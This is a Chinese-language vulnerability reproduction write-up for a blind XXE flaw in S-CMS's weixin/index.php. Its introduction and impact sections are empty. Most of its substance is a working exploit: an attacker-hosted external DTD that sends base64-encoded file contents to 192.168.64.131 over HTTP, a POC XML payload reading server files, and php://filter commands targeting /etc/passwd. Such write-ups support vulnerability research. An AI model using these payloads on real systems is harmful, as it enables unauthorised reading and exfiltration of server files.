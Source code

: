 ```yaml
---
title: "S-CMS xxe漏洞"
id: zhfly3107
---
```


# S-CMS xxe漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

全局搜索`simplexml`，在`weixin/index.php`发现漏洞

![image](../img/50c03498c88f96176dfd735791511838.png)

非常标准的XXE，没有任何过滤手段，往下并未发现有输出XML解析结果的地方，此处应用无回显的XXE攻击手段

### 漏洞复现

首先在自己的服务器（192.168.64.131）上创建一个供靶机外部引用的dtd文件（test.dtd）

```
<!ENTITY % all 
	"<!ENTITY &#x25; send SYSTEM 'http://192.168.64.131/?%file;'>"
>
%all; 
```

发送POC

```
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/phpStudy/PHPTutorial/WWW/robots.txt">
	<!ENTITY % dtd SYSTEM "http://192.168.64.131/test.dtd">
%dtd;
%send;
]> 
```

![image](../img/0a10d8369737adb8464a2856db791ea2.png)

然后在Apache日志中查看到结果：

![image](../img/7bd0c3bf2dccc5c43ac6feae8f2642bf.png)

在这里发现一个问题，查看其它php文件的内容会发生`Detected an entity reference loop`错误，查询资料发现libxml解析器默认限制外部实体长度为2k，无法突破，只能寻找压缩解决方案（但效果不明显）

```
压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1"); 
```

## 参考链接

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/